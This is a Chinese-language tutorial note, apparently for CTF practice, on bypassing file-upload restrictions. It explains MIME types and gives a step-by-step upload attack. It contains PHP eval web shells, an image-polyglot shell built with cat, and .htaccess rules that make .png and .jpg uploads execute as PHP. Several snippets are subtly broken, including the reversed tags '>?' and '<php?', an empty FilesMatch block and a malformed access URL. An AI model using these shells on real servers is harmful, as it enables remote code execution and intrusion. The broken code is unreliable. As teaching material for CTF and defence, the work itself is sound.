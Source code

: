 # ctf的upload利用

`Content-Type: application/x-php` 是一个 MIME 类型。MIME（Multipurpose Internet Mail Extensions，多用途互联网邮件扩展）是一种标准，用来表示文档、文件或字节流的性质和格式。它在互联网上用于标识文件的内容类型。

MIME 类型通常由两部分组成：`type/subtype`，例如 `text/html`、`image/jpeg` 和 `application/json`。其中：

- `type` 表示大类，如 `text`、`image`、`audio`、`video` 和 `application`。
- `subtype` 表示具体的格式，如 `html`、`plain`、`png`、`mp3` 等。

MIME 类型对大小写不敏感，但传统写法都是小写。它们在HTTP头信息中指定，告诉浏览器或其他客户端如何处理传输的数据。

有许多不同的 MIME 类型，以下是一些常见的例子：

常见的content-type可能是如下之一：

| 类型          | 描述                                                         | 典型示例                                                     |
| :------------ | :----------------------------------------------------------- | :----------------------------------------------------------- |
| `text`        | 表明文件是普通文本，理论上是人类可读                         | `text/plain`, `text/html`, `text/css, text/javascript`       |
| `image`       | 表明是某种图像。不包括视频，但是动态图（比如动态 gif）也使用 image 类型 | `image/gif`, `image/png`, `image/jpeg`, `image/bmp`, `image/webp`, `image/x-icon`, `image/vnd.microsoft.icon` |
| `audio`       | 表明是某种音频文件                                           | `audio/midi`, `audio/mpeg, audio/webm, audio/ogg, audio/wav` |
| `video`       | 表明是某种视频文件                                           | `video/webm`, `video/ogg`                                    |
| `application` | 表明是某种二进制数据                                         | `application/octet-stream`, `application/pkcs12`, `application/vnd.mspowerpoint`, `application/xhtml+xml`, `application/xml`, `application/pdf` |



1. **分析上传功能**：首先要了解目标应用程序的文件上传功能，包括它如何处理文件名、文件类型、文件内容等。这通常涉及到对HTML表单、JavaScript代码和服务器端逻辑的分析。

2. **识别安全措施**：确定应用程序使用了哪些安全措施来防止恶意文件上传。这可能包括文件类型的白名单或黑名单、文件大小限制、文件内容检查等。

3. **构造恶意文件**：根据分析结果，构造一个能够绕过安全措施的恶意文件。这可能涉及到修改文件扩展名、文件内容或MIME类型。

4. **绕过前端验证**：如果存在前端验证（如JavaScript验证），需要找到方法绕过它。这可能通过禁用JavaScript、修改客户端代码或使用代理工具（如Burp Suite）来修改网络请求。

5. **上传并执行**：上传恶意文件到服务器，并尝试执行。如果文件是一个Web Shell，可以使用工具（如蚁剑）来与之交互。

6. **获取flag**：通过执行恶意文件或利用Web Shell，获取服务器上存储的flag。

   

   #### 如何判断是白名单限制还是黑名单限制

   1. **测试上传**：尝试上传不同类型的文件，看看哪些被接受，哪些被拒绝。如果只有特定的几种类型被接受，可能是使用了白名单；如果大多数类型都被接受，只有少数特定类型被拒绝，可能是使用了黑名单。
   2. **错误消息**：注意上传失败时的错误消息。白名单策略通常会提示“只允许上传特定类型的文件”，而黑名单策略可能会说“不允许上传特定类型的文件”。
   3. **页面代码审查**：检查页面的HTML和JavaScript代码。如果代码中明确列出了允许上传的文件类型，那么很可能是白名单策略。如果代码中列出了不允许上传的文件类型，那么可能是黑名单策略。
   4. **网络流量分析**：使用网络抓包工具（如Wireshark或Burp Suite）来分析上传文件时的HTTP请求和响应。这可以帮助你理解后端如何处理上传的文件。
   5. **文档和源码**：如果有权限，查看应用程序的文档和源码也是一种有效的方法。开发者可能在文档中说明了文件上传的安全策略，或者在源码中实现了相关的逻辑。
   6. **绕过尝试**：尝试使用常见的绕过技术来上传不被允许的文件类型。如果成功，这可能揭示了后端使用的是黑名单策略。

```php
<?php
@eval($_POST['code'])
>?
```



图片马的制作

设计一个php一句话shell

```php
<php? @eval($_GET['cmd']) ?>
```

接着使用linux cat命令拼接

```
cat 1.php 1.png > shell.png
```

就可以尝试上传文件，访问图片并且构造`url ?shell.png=ls`



### `.htaccess`绕过

如果服务器配置允许用户上传并使用`.htaccess`文件，那么可以通过上传特定的`.htaccess`文件来绕过文件上传限制。

以下是使用`.htaccess`文件绕过上传限制的一般步骤：

1. **创建`.htaccess`文件**：根据服务器的解析规则，你可以创建一个`.htaccess`文件，其中包含指令来改变服务器对文件的处理方式。例如，你可以使用以下内容来使得服务器将所有文件当作PHP脚本执行：

   ```apache
   <IfModule mime_module>
   SetHandler application/x-httpd-php
   </IfModule>
   ```

   或者某个文件

   ```
   <FilesMatch "tll">
   
   </FilesMatch>
   ```

   这种方法时，后面的.png或者.jpg文件能被当成php代码执行，如果想换成别的改扩展名就可以

   

   ```
   AddType application/x-httpd-php .png
   ```

   

   ```
   AddType application/x-httpd-php .jpg
   ```

2. **上传`.htaccess`文件**：将你创建的`.htaccess`文件上传到目标服务器的特定目录中。

3. **上传其他文件**：上传一个带有恶意代码的文件，但文件扩展名不在服务器的黑名单中。由于`.htaccess`文件的存在，服务器会将这个文件当作PHP脚本来解析。

4. **执行恶意代码**：通过访问你上传的文件，服务器将按照PHP脚本来执行文件内容，从而可能允许你执行服务器端的命令或脚本。

请注意，这种方法只适用于服务器配置允许`.htaccess`文件并且没有正确限制其权限时。